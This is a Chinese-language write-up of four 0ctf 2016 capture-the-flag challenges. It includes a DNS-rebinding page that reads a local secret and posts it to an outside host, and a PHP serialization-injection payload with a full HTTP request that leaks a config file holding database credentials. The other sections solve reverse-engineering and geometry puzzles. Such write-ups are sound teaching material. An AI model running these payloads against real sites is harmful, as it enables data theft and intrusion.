




# 0ctf 2016 Writeup

## monkey 4pts

上来就是一个PoW(proof of work)，如下解之：
```python
def solve(st):
    i = 0
    while True:
        s = hex(i)
        i += 1
        if hashlib.md5(s).hexdigest()[:6] == st:
            return s
```

由于monkey会在页面停留120s, 那么我们让他访问我们的'http://mydomain:8080/evil.html'后，页面里弄一个setTimeout，90s后ajax get一下'http://127.0.0.1:8080/secret'，在把这flag post到我们的主机上即可。所谓同源策略的话，在一开始把mydomain的A记录指向我们的服务器，ttl设为60s，在monkey访问页面mydomain:8080/evil.html后，马上把A记录改成127.0.0.1，90s后请求mydomain:8080/secret时就是请求127.0.0.1:8080/secret了。

evil.html如下：
```html
<!DOCTYPE html>
<html>
<head>
<script src="/jquery-1.10.2.js"></script>
<script>
function runTest() {
  setTimeout(function() {
        $.get('/secret', function(txt) {        
                $.post('http://somewhereelse/record',{data: txt},function(t){}, 'text');
        }, 'text');
  }, 90000);
}
</script>
</head>
<body onload="runTest()">
</body>
</html>
```

记得receive的时候，在somewhereelse/record发送头：`access-control-allow-origin: *`才能接收到flag`array ('data' => '0ctf{monkey_likes_banananananananaaaa}',)`

## opm 3pts
stegsolve按行提取rgb LSB得到zip，解压发现是一个arm的二进制代码段dump，转成二进制形式扔ida里，在0xaa109cc4处create function，F5得到这样的东西：


猜测v6-34是flag字符串，长为16。

然后函数结尾处有个check，


每个被检查的变量都是flag字符串的线性组合，如图：


那么提取系数，解16元线性方程组，得到flag:
```python
>>> import numpy
>>> a=numpy.array([[-32, 97, 46, 45, 67, 79, -73, -13, -5, 27, -83, -100, -26, -55, 32, -55], [-31, -90, 20, -66, -89, -64, -73, 26, 87, -76, 15, 72, 85, 89, 6, 84], [78, 22, 94, 75, 34, 31, 61, -16, 100, 14, 27, 92, -42, -7, 83, 57], [43, 44, 75, -59, -17, 82, -1, -44, 47, -68, 76, 72, 48, -89, 96, -27], [44, -60, 87, -64, 57, -18, -60, 9, -81, -33, 24, 84, 62, 89, 42, -97], [30, 68, 23, 91, 46, 32, -62, 42, -5, 54, -57, 59, 48, -97, 89, 79], [-29, -14, 14, -89, -60, 11, 49, -79, 75, -86, -99, -57, -10, 9, 62, -97], [58, 58, 17, 91, -98, -75, -5, -60, -26, 83, -81, 80, 97, 6, 31, -69], [-21, -11, 62, -77, 84, -86, 49, -66, -1, 26, -4, -27, -43, -1, 19, 73], [83, 43, 77, 96, 83, -20, 26, -7, -89, -60, -23, 68, -51, -75, 42, 35], [74, 58, 73, -86, -100, 71, 12, 66, 69, 50, 48, 58, -52, 14, 45, -91], [-60, -61, 26, -31, 20, -59, -53, 72, 68, -90, -41, -74, 48, -27, 30, 8], [-26, 19, 31, -16, -95, 33, 64, -83, 10, 98, -35, -76, 7, -12, 25, -34], [-89, 61, -40, -67, 20, 42, 27, -37, 38, -16, 71, 16, 75, 4, 51, -6], [32, 57, -92, -47, 40, -54, -21, -25, -14, 91, 64, 39, 7, 38, 96, 82], [-56, -6, 55, 42, -6, -38, -37, -27, 64, 16, -54, -53, -96, -31, 84, 100]])
>>> y=numpy.array([-7026,-2645,53442,20609,8630,27564,-27078,15265,-12183,17452,31435,-23099,-8136,13019,20430,-12714])
>>> import numpy.linalg
>>> x=numpy.linalg.solve(a,y)
>>> x
array([  84.,  114.,   52.,   99.,   49.,   78.,  103.,   95.,   70.,
         48.,   82.,   95.,   70.,  117.,   78.,   33.])
>>> ''.join([chr(int(round(i))) for i in x])
'Tr4c1Ng_F0R_FuN!'
```

## piapiapia 6pts
这道题的漏洞是在于：
1. `$profile['nickname']`可以填数组，绕过检测。
2. 更新profile时，序列化后的`$profile`经过filter()过滤后，`'where'`或会变为`'hacker'`，也就是`s:5:"where";`会变成了`s:5:"hacker";`，导致长度不一样，序列化后的格式被破坏，导致反序列化失败。但我们可以精心调整where的个数和双引号的位置，就可以注入任意键值对到反序列化后的`$profile`里，而反序列化后，原代码会读取`$profile['photo']`路径的文件，返回给我们。考虑通过精心调整nickname，把`$profile['photo']`改成`'/var/www/html/config.php'`(经测试发现'../config.php'无效...)。利用以下代码生成payload和模拟这个过程:

```php
<?php

$profile['phone'] = '1';
$profile['email'] = '1';
$filename = '/var/www/html/config.php';
$len = strlen($filename);
$profile['nickname'] = array('";}s:5:"photo";s:' . $len . ':"' . $filename . '";}');
//$profile['nickname'] = array('";}s:5:"photo";O:5:"mysql":0:{}}');
$len = strlen($profile['nickname'][0]);
for($i=0; $i<$len; $i++)
    $profile['nickname'][0] = 'where' . $profile['nickname'][0];
$profile['photo'] = 'upload/' . md5('111');

function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
    $string = preg_replace($escape, '_', $string);

    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}
    
var_dump($profile);
echo "<br />";
echo filter(serialize($profile));
echo "<br />";
var_dump(unserialize(filter(serialize($profile))));
```


输出
```
array(4) {
  ["phone"]=>
  string(1) "1"
  ["email"]=>
  string(1) "1"
  ["nickname"]=>
  array(1) {
    [0]=>
    string(288) "wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:24:"/var/www/html/config.php";}"
  }
  ["photo"]=>
  string(39) "upload/698d51a19d8a121ce581499d7b701668"
}
<br />a:4:{s:5:"phone";s:1:"1";s:5:"email";s:1:"1";s:8:"nickname";a:1:{i:0;s:288:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";}s:5:"photo";s:24:"/var/www/html/config.php";}";}s:5:"photo";s:39:"upload/698d51a19d8a121ce581499d7b701668";}<br />array(4) {
  ["phone"]=>
  string(1) "1"
  ["email"]=>
  string(1) "1"
  ["nickname"]=>
  array(1) {
    [0]=>
    string(288) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker"
  }
  ["photo"]=>
  string(24) "/var/www/html/config.php"
}
```

可以看到最后`$profile["photo"]`被修改成了想要的值。base64解码返回值，得到：
```python
>>> print '''PD9waHAKCSRjb25maWdbJ2hvc3RuYW1lJ10gPSAnMTI3LjAuMC4xJzsKCSRjb25maWdbJ3VzZXJuYW1lJ10gPSAnMGN0Zic7CgkkY29uZmlnWydwYXNzd29yZCddID0gJ29oLW15LSoqKiotd2ViJzsKCSRjb25maWdbJ2RhdGFiYXNlJ10gPSAnMENURl9XRUInOwoJJGZsYWcgPSAnMGN0ZntmYTcxN2I0OTY0OWZiYjljMGRkMGQxNjYzNDY5YTg3MX0nOwo/Pgo='''.decode('base64')
<?php
        $config['hostname'] = '127.0.0.1';
        $config['username'] = '0ctf';
        $config['password'] = 'oh-my-****-web';
        $config['database'] = '0CTF_WEB';
        $flag = '0ctf{fa717b49649fbb9c0dd0d1663469a871}';
?>
```

payload：
```
POST /update.php HTTP/1.1
Host: 202.120.7.203:8888
Content-Length: 979
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://202.120.7.203:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.116 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJPbDrUHm4bYPsH4Q
Referer: http://202.120.7.203:8888/update.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.6,en;q=0.4
Cookie: PHPSESSID=qsfo7b17a6ajo5usvmkaqqi636

------WebKitFormBoundaryJPbDrUHm4bYPsH4Q
Content-Disposition: form-data; name="phone"

11111111111
------WebKitFormBoundaryJPbDrUHm4bYPsH4Q
Content-Disposition: form-data; name="email"

2@example.com
------WebKitFormBoundaryJPbDrUHm4bYPsH4Q
Content-Disposition: form-data; name="nickname[]"

wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:24:"/var/www/html/config.php";}
------WebKitFormBoundaryJPbDrUHm4bYPsH4Q
Content-Disposition: form-data; name="photo"; filename="2.gif"
Content-Type: application/octet-stream

111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
------WebKitFormBoundaryJPbDrUHm4bYPsH4Q--
```

## xor painter 4pts
下下来一个一堆坐标的文件，一开始以为是每行是一条直线两个端点的坐标(x1, y1, x2, y2)，画出来然后直线的交叉点异或处理。后来画出来一个三角形区域，就知道了是(x1, x2, y1, y2)。在画出来一个正方形区域里一坨雪花，仔细想想后发现应该是每行表示一个矩形而不是直线，然后问题就变成了顶点上矩形覆盖数的奇偶性问题，用二维线段树去弄，复杂度才可以接受，就是poj2155原题。懒得写二维线段树就上网随便抄了段题解代码跑（oi的代码果然还是不可靠各种崩，换了n种版本终于不崩了），找了个大内存机器后强行开几G数组跑线段树，发现画出来一个似是而非的东西，中间一坨1像素的直线干扰，如下：



后来在开了脑洞，估计就是右下角坐标需要-1，也就是这矩形区域是左闭右开的，然后就画出对的图了，就是一张18000*18000的图里面有大概几个像素大小的字母散落在大图的各处....还需要后续处理一下...

二维线段树的c++代码，算法部分直接抄自网上某角落的题解：
```cpp

#define SIZE (18000)
#define maxn (72010)
#define DIR "./"

#define LINE_NUM (13663881)
#include <iostream>
#include <stdio.h>
#include <string.h>

using namespace std;
bool *tree[maxn];
int n;
bool sum;

/*
更新子线段树，tl、tr对应子矩阵的y1、y2，即要更新的范围。
rtx：母线段树(x轴)的节点，表示该子线段树属于母线段树的节点rtx
rt：子线段树的节点序号
L,R为子线段树节点rt的两端点
*/
void updatey(int rtx, int rt, int tl, int tr, int L, int R) {
	//一开始弄反了，写成L<=tl && tr<=R。。。
	//要注意，应该是所在节点rt的区间在所要更新的节点范围里，更新节点rt的区间对应的值
	if (tl <= L && R <= tr) {
		tree[rtx][rt] = !tree[rtx][rt];  //对属于更新范围里的子矩阵进行取反
		return;
	}
	int mid = (L + R) >> 1;
	//下面部分也可以换成注释掉的语句
	if (tl <= mid)
		updatey(rtx, rt << 1, tl, tr, L, mid);
	if (tr>mid)
		updatey(rtx, rt << 1 | 1, tl, tr, mid + 1, R);
	/*
	if(tr<=mid)
	updatey(rtx,rt<<1,tl,tr,L,mid);
	else if(tl>mid)
	updatey(rtx,rt<<1|1,tl,tr,mid+1,R);
	else{
	updatey(rtx,rt<<1,tl,mid,L,mid);
	updatey(rtx,rt<<1|1,mid+1,tr,mid+1,R);
	}
	*/


}
/*
更新左上角(x1,y1)，右下角(xr,yr)的子矩阵区域
更新时，先在x轴找到对应[xl,xr]区间的点，再找按y轴找到对应[yl,yr]区间的节点
rt:母线段树的节点序号
L,R:rt节点的区间端点
*/
void updatex(int rt, int xl, int xr, int yl, int yr, int L, int R) {
	//一开始弄反了，写成L<=xl && xr<=R。。。
	if (xl <= L && R <= xr) {
		updatey(rt, 1, yl, yr, 0, n);
		return;
	}
	int mid = (L + R) >> 1;
	//下面部分也可以换成注释掉的语句
	if (xl <= mid)
		updatex(rt << 1, xl, xr, yl, yr, L, mid);
	if (xr>mid)
		updatex(rt << 1 | 1, xl, xr, yl, yr, mid + 1, R);
	/*
	if(xr<=mid)
	updatex(rt<<1,xl,xr,yl,yr,L,mid);
	else if(xl>mid)
	updatex(rt<<1|1,xl,xr,yl,yr,mid+1,R);
	else{
	updatex(rt<<1,xl,mid,yl,yr,L,mid);
	updatex(rt<<1|1,mid+1,xr,yl,yr,mid+1,R);
	}
	*/

}
/*
这里注意的是，是直到L!=R的时候，才停止查询，否则就要一直查询下去，直到查询到y所在的叶子节点
因为这里“异或”就相当于lazy标记，所以要获得最后的值，则必须遍历过y所在的所有子矩阵
rtx：母线段树(x轴)的节点，表示该子线段树属于母线段树的节点rtx
rt：子线段树的节点序号
L,R为子线段树节点rt的两端点
*/
void queryy(int rtx, int rt, int y, int L, int R) {
	sum ^= tree[rtx][rt];  //这里注意：要先异或！
	if (L != R) {
		int mid = (L + R) >> 1;
		if (y <= mid)
			queryy(rtx, rt << 1, y, L, mid);
		else
			queryy(rtx, rt << 1 | 1, y, mid + 1, R);
	}
}
/*
这里注意的是，是直到L!=R的时候，才停止查询，否则就要一直查询下去，直到查询到点x所在的叶子节点
因为这里“异或”就相当于lazy标记，所以要获得(x,y)最后的值，则必须遍历过(x,y)点所在的所有子矩阵
rt：母线段树的节点序号
L,R为子线段树节点rt的两端点
x,y为所要查找的点的值
*/
void queryx(int rt, int x, int y, int L, int R) {
	queryy(rt, 1, y, 0, n);
	//注意：当L<R的时候，还要继续往下查询，直到L=R=y。而不是到L<=Y<=R的时候就停止
	if (L != R) {
		int mid = (L + R) >> 1;
		if (x <= mid)
			queryx(rt << 1, x, y, L, mid);
		else
			queryx(rt << 1 | 1, x, y, mid + 1, R);
	}
}

int main() {
	
	for (int i = 0; i < maxn; i++) {
		tree[i] = new bool[maxn];
		memset(tree[i], 0, sizeof(bool[maxn]));
	}

	n = SIZE;

	FILE *f = fopen(DIR"xorlist", "r");
	int x1, y1, x2, y2;
	for (int i = 0; i < LINE_NUM; i++) {
		fscanf(f, "%d, %d, %d, %d", &x1, &x2, &y1, &y2);
		updatex(1, x1, x2-1, y1, y2-1, 0, n);
		if (i % 500000 == 0) 
			printf("%d\n", i);
	}
	fclose(f);

	f = fopen(DIR"xor.output", "w");
	for (int i = 0; i < SIZE; i++) {
		for (int j = 0; j < SIZE; j++) {
			sum = false;
			queryx(1, x1, y1, 0, n);
			fprintf(f, "%c", sum ? '1' : '0');
		}
		if(i%10==0) printf("%d\n", i);
		fprintf(f, "\n");
	}
	fclose(f);
	
	return 0;
}
```


用PIL把输出画成大图：
```python
from PIL import Image
def draw():
    size = 18000
    a=open('./xor.output','rb').read()
    a=a.replace('\r','').split('\n')
    b=Image.new('L',(size,size))
    for i in xrange(size):
        if i%100==0: print i
        for j in xrange(size):
            b.putpixel((j, i), 255 if a[i][j]=='1' else 0)
    b.resize((1000,1000)).save('./xor3.bmp')
    b.save('./xor_original3.png')
```

找字母用代码，把图片和对应坐标打出来：
```python
import Image
img = Image.open('./xor_original3.png')
counter = 0
x=0
while x<180:
    print x
    y=0
    while y<180:
        flag = 0
        for i in xrange(100):
            for j in xrange(100):
                if img.getpixel((y*100+j, x*100+i)) == 0:
                    flag += 1
                    if flag > 10: break
            if flag > 10: break
        if flag > 10:
            counter += 1
            img.crop((y*100, x*100, (y+1)*100-1, (x+1)*100-1)).save('xor/%d_%d_%d.png' % (counter, x, y))
        y+=1
    counter += 1
    img.crop((0, 0, 99, 99)).save('xor/%d.png' % counter)
    x+=1
```

画出来这样的一堆图：


人肉识别一下：
```
10_9_19.png 0
115_89_35.png B
117_90_35.png B
121_93_73.png i
124_95_89.png G
126_96_6.png _
127_96_7.png _
128_96_89.png G
12_10_18.png 0
134_101_127.png _
135_101_144.png B
13_10_19.png 0
152_117_125.png p
155_119_44.png t
163_126_14.png i
164_126_74.png m
165_126_89.png a
167_127_89.png a
16_12_46.png c
170_129_152.png }
17_12_92.png f
19_13_92.png f
22_15_66.png t
26_18_122.png {
27_18_149.png 5
50_40_19.png m
51_40_20.png m
53_41_19.png m
54_41_20.png m
55_41_118.png _
58_43_153.png f
61_45_72.png L
62_45_73.png L
64_46_44.png @
66_47_89.png L
84_64_70.png g
89_68_119.png #
93_71_36.png @
95_72_94.png _
96_72_144.png n 
98_73_13.png L
```

重新渲染一张图...
```python
>>> zip(b,c)
[((9, 19), '0'), ((89, 35), 'B'), ((90, 35), 'B'), ((93, 73), 'i'), ((95, 89), 'G'), ((96, 6), '_'), ((96, 7), '_'), ((96, 89), 'G'), ((10, 18), '0'), ((101, 127), '_'), ((101, 144), 'B'), ((10, 19), '0'), ((117, 125), 'p'), ((119, 44), 't'), ((126, 14), 'i'), ((126, 74), 'm'), ((126, 89), 'a'), ((127, 89), 'a'), ((12, 46), 'c'), ((129, 152), '}'), ((12, 92), 'f'), ((13, 92), 'f'), ((15, 66), 't'), ((18, 122), '{'), ((18, 149), '5'), ((40, 19), 'm'), ((40, 20), 'm'), ((41, 19), 'm'), ((41, 20), 'm'), ((41, 118), '_'), ((43, 153), 'f'), ((45, 72), 'L'), ((45, 73), 'L'), ((46, 44), '@'), ((47, 89), 'L'), ((64, 70), 'g'), ((68, 119), '#'), ((71, 36), '@'), ((72, 94), '_'), ((72, 144), 'n'), ((73, 13), 'L')]
>>> a=Image.new('L',(180,180))
>>> dr=ImageDraw.Draw(a)
>>> for i,j in zip(b,c):
...     dr.text(i, unicode(j,'UTF-8'), font=font, fill=255)
...
>>> a.show()
>>> a.save('flag.png')
```

得到flag:

